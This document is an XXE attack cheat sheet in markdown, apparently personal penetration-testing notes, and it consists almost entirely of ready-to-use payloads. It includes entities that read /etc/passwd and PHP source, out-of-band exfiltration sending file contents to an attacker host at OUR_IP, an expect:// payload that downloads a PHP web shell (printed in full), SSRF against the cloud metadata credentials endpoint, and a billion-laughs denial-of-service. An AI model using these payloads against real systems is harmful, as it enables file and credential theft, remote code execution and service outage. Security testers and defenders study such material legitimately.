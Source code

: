 
# XXE Attacks 


## Reading Sensitive Files

### using DTD
```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "file:///etc/passwd">
]>
```

### using Xinclude
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

**Tip:** In certain Java web applications, we may also be able to specify a directory instead of a file, and we will get a directory listing instead, which can be useful for locating sensitive files.


### Read file contains some of XML's special characters

#### PHP wrapper 

```
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

#### CDATA Mehtod


```
<!DOCTYPE email [
  <!ENTITY begin "<![CDATA[">
  <!ENTITY file SYSTEM "file:///var/www/html/submitDetails.php">
  <!ENTITY end "]]>">
  <!ENTITY joined "&begin;&file;&end;">
]>
```
- this will not work, since XML prevents joining internal and external entities, so we will have to find a better way to do so.
- To bypass this limitation, we can utilize XML Parameter Entities, a special type of entity that starts with a % character and can only be used within the DTD.
- What's unique about parameter entities is that if we reference them from an external source (e.g., our own server), then all of them would be considered as external and can be joined,as follows:


- payload 
```
<!DOCTYPE email [
  <!ENTITY % begin "<![CDATA["> <!-- prepend the beginning of the CDATA tag -->
  <!ENTITY % file SYSTEM "file:///var/www/html/submitDetails.php"> <!-- reference external file -->
  <!ENTITY % end "]]>"> <!-- append the end of the CDATA tag -->
  <!ENTITY % xxe SYSTEM "http://OUR_IP:8000/xxe.dtd"> <!-- reference our external DTD -->
  %xxe;
]>
<email>&joined;</email> 
```
- xxx.dtd
```
<!ENTITY joined "%begin;%file;%end;">
```


## Blind XXE 

#### Error Based XXE
- payload 
 ```
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %error;
]>
```
- xxx.dtd
```
<!ENTITY % file SYSTEM "file:///etc/hosts">
<!ENTITY % error "<!ENTITY content SYSTEM '%nonExistingEntity;/%file;'>">
```

#### Out-of-band Data Exfiltration

- payload 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```
- xxe.dtd
```
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```


## RCE 

###  look for `ssh` keys

### PHP Wrappers
#### php://filter 
- https://github.com/synacktiv/php_filter_chain_generator
#### php://expect 
- expect://id  (output may break xml syntax  , we may have not access to the output)  

-  payload   (best practice )
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "expect://curl$IFS-O$IFS'OUR_IP/shell.php'">
]>
<root>
<name></name>
<tel></tel>
<email>&company;</email>
<message></message>
</root>
```
- shell.php file 
```php
<?php system($_REQUEST["cmd"]);?>
```



## SSRF 
 - get API metadata 
```
<!DOCTYPE test [ 
<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> 
]>
```



## DOS Attack
```
<?xml version="1.0"?>
<!DOCTYPE email [
  <!ENTITY a0 "DOS" >
  <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
  <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
  <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
  <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
  <!ENTITY a5 "&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;&a4;">
  <!ENTITY a6 "&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;&a5;">
  <!ENTITY a7 "&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;&a6;">
  <!ENTITY a8 "&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;&a7;">
  <!ENTITY a9 "&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;&a8;">        
  <!ENTITY a10 "&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;&a9;">        
]>
<root>
<name></name>
<tel></tel>
<email>&a10;</email>
<message></message>
</root>
```

